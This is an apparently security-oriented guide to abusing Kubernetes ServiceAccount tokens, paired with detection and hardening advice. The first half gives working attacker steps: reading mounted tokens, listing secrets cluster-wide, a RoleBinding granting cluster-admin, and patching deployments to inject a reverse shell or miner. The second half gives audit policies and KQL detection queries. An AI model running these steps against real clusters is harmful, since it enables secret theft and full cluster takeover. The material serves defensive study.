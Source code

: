 # Abusing Kubernetes ServiceAccounts for Escalation

In Kubernetes, ServiceAccount (SA) tokens are the default method for in-cluster authentication to the Kubernetes API. These tokens, if not tightly scoped and managed, become a key target for attackers looking to escalate privileges, pivot, or exfiltrate data after gaining initial access to a container.

This document focuses on how attackers abuse SA tokens in real-world scenarios and how this can lead to cluster-wide compromise.

---

## 🎯 Why Attackers Target ServiceAccounts

- Every pod by default receives a mounted SA token.
- These tokens grant authenticated access to the Kubernetes API.
- Misconfigured RBAC or overly permissive roles can allow attackers to:
  - Escalate privileges
  - Read secrets
  - Deploy malicious pods
  - Discover the entire cluster topology

---

## 🔍 Reconnaissance from Within a Compromised Pod

### 1. Check if a Token is Mounted
```bash
ls /var/run/secrets/kubernetes.io/serviceaccount/
```
If the token exists, it can be used to access the API.

### 2. Read the Token and CA
```bash
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
APISERVER=https://kubernetes.default.svc
```

### 3. Interact with the Kubernetes API
```bash
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  $APISERVER/api
```

### 4. Discover Permissions
```bash
kubectl auth can-i --as=system:serviceaccount:<namespace>:<sa-name> --list
```
> This requires kubectl to be installed in the container, or copied in.

Alternative (raw API):
```bash
curl -s --cacert $CACERT -H "Authorization: Bearer $TOKEN" \
  $APISERVER/apis/rbac.authorization.k8s.io/v1/clusterrolebindings
```
---

## 🚨 Common Privilege Escalation Paths

### 🧬 Access Secrets
```bash
kubectl get secrets --all-namespaces
```
Look for:
- kubeconfig tokens
- cloud provider creds
- database passwords

### 🚀 Create or Modify Workloads
If the SA has rights to create deployments or CronJobs:
```bash
kubectl patch deployment legitimate-app -p '...'
```
Inject a reverse shell, crypto miner, or imagePull from malicious registry.

### 🛠 Abuse RoleBindings
If you can create RoleBindings:
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: escalate-me
  namespace: default
subjects:
- kind: ServiceAccount
  name: attacker-sa
  namespace: default
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

### 🏹 Access Other Pods or Exec
```bash
kubectl get pods -A
kubectl exec -it some-pod -- /bin/sh
```

---
## 📋 What to Look For

### 1. SA-to-API Communication

Enable **Kubernetes Audit Logs** and inspect for API calls authenticated via `system:serviceaccount:<namespace>:<sa-name>`.

#### Key Signals:

- `get`, `list`, or `watch` on secrets, configmaps, or pods in other namespaces
- `create`, `patch`, or `delete` deployments, jobs, pods
- RoleBinding or ClusterRoleBinding creation/modification

### 2. High-Risk Calls from Default SAs

Audit for usage of the default SA in sensitive namespaces:

```bash
kubectl get pods --all-namespaces -o jsonpath='{range .items[*]}{.metadata.name}:{.spec.serviceAccountName}{"\n"}{end}' | grep ':default'
```

### 3. Cross-Namespace Activity

Check for SAs making calls outside their own namespace (e.g., `default` SA in `dev` namespace modifying resources in `prod`).

### 4. Workload Manipulation

If an SA can patch or update Deployments, it may be used to inject malicious containers:

```yaml
requestURI: "/apis/apps/v1/namespaces/prod/deployments/webapp"
verb: "patch"
authenticatedUser: "system:serviceaccount:dev:ci-runner"
```

---

## ⚙️ How to Enable Audit Logs

In kube-apiserver config (e.g., `/etc/kubernetes/manifests/kube-apiserver.yaml`), add:

```yaml
--audit-log-path=/var/log/k8s-audit.log
--audit-policy-file=/etc/kubernetes/audit-policy.yaml
```

Example audit policy:

```yaml
apiVersion: audit.k8s.io/v1
kind: Policy
rules:
  - level: RequestResponse
    users: ["system:serviceaccount:"]
    verbs: ["get", "list", "watch", "create", "update", "patch", "delete"]
    resources:
    - group: ""
      resources: ["pods", "secrets", "configmaps"]
    - group: "rbac.authorization.k8s.io"
      resources: ["roles", "rolebindings", "clusterrolebindings"]
```

---

## 🧪 Example Queries for Centralized Logging

If you send audit logs to a SIEM or log aggregator:

### Detect SA reading secrets

```kql
k8s_audit
| where user.username startswith "system:serviceaccount:"
| where verb == "get" and objectRef.resource == "secrets"
```

### Detect RoleBinding creation

```kql
k8s_audit
| where user.username startswith "system:serviceaccount:"
| where objectRef.resource has "rolebinding" and verb in ("create", "patch")
```

### SA interacting with resources in another namespace

```kql
| where user.username startswith "system:serviceaccount:"
| extend ns=split(user.username, ":")[2]
| where ns != objectRef.namespace
```

---

## 🧱 Defensive Considerations
- Enable `BoundServiceAccountTokenVolume` and short-lived tokens
- Set `automountServiceAccountToken: false` where possible
- Use minimal RBAC roles per SA
- Monitor audit logs for SA abuse patterns

---

## 🧪 Detection Tips
- Access to secrets from service accounts outside kube-system or monitoring namespaces
- API calls from a namespace modifying unrelated deployments
- RoleBindings to powerful roles from unexpected pods or users

---

## 📌 Summary
Even without a container breakout, a single misconfigured ServiceAccount can open the door to full cluster takeover. Defensive engineering and constant RBAC review are critical to prevent SA abuse.

---

## 🔗 References
- [Kubernetes: Configure Service Accounts](https://kubernetes.io/docs/tasks/configure-pod-container/configure-service-account/)
- [Kubernetes API Access from Pods](https://kubernetes.io/docs/concepts/architecture/authentication/#service-account-tokens)
- [kubectl auth can-i](https://kubernetes.io/docs/reference/access-authn-authz/authorization/#checking-api-access)

